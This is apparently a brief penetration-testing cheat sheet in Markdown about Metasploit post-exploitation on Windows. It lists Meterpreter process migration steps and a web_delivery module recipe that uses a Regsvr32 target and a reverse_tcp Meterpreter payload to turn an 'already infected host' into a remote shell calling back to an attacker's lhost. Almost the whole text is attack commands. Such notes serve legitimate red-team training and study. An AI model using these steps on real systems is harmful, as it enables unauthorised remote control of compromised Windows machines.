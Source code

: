 # Process Migrate
#### Meterpreter
* `migrate -N <process/PID>`<br>
_Needed when running as **NT AUTHORITY\SYSTEM** but get Access Denied_

# Shell Upgrade
#### **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
